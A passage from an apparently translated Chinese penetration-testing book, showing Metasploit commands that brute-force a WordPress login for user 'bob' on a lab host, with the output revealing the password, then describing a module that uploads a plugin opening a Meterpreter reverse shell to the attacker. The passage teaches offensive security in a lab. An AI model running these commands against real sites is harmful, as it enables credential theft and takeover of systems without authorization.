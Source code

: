 图 13.5：Metasploit 模块选项

对于这个特定的暴力破解攻击，我们将针对发现的用户`bob`使用我们选择的字典。我们还将把`THREADS`增大到`10`，并确保`RHOSTS`和`RPORT`反映目标应用程序的设置。为了设置每个选项，我们将使用（你猜对了）`set`命令，如下所示：

```
**msf auxiliary(wordpress_xmlrpc_login) > set RPORT 8000**
**msf auxiliary(wordpress_xmlrpc_login) > set RHOSTS vulndocker.internal**
**msf auxiliary(wordpress_xmlrpc_login) > set PASS_FILE /root/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt**
**msf auxiliary(wordpress_xmlrpc_login) > set USER bob**
**msf auxiliary(wordpress_xmlrpc_login) > set THREADS 10**
**msf auxiliary(wordpress_xmlrpc_login) > set STOP_ON_SUCCESS true**

```

配置好模块后，我们可以使用 Metasploit 的`run`命令启动暴力破解攻击：

```
**msf auxiliary(wordpress_xmlrpc_login) > run**

**[*] vulndocker.internal:8000   :/xmlrpc.php - Sending Hello...**
**[*] Starting XML-RPC login sweep...**
**[+] WORDPRESS_XMLRPC - Success: 'bob:Welcome1'**
**[*] Scanned 1 of 1 hosts (100% complete)**
**[*] Auxiliary module execution completed**

```

尽管执行 Metasploit 模块的步骤比仅运行`wpscan`要多，但其价值再次体现在 Metasploit 能够组织在攻击过程中收集到的数据上。如果这个应用是更大规模攻防的一部分，而发现的凭据可以在后续攻击中使用，那么 Metasploit 数据库的价值是无可替代的。有了这些凭据，我们就可以完全访问 WordPress 应用。

Metasploit 还提供了`exploit/unix/webapp/wp_admin_shell_upload`模块，该模块将创建一个 WordPress 插件，通过`php/meterpreter/reverse_tcp`有效载荷连接回攻击者，默认使用 4444 端口。还有其他有效载荷选项，但最终结果基本相同。然而，Metasploit 模块存在一个问题：噪音。失败或中断的利用尝试会留下令人不安的证据。若有管理员经过，他们很快就能发现并发出警报。你能发现这个恶意插件吗？当然，你可以。

下图显示了已安装的 WordPress 插件，包括遗留下的 MSF 有效载荷：
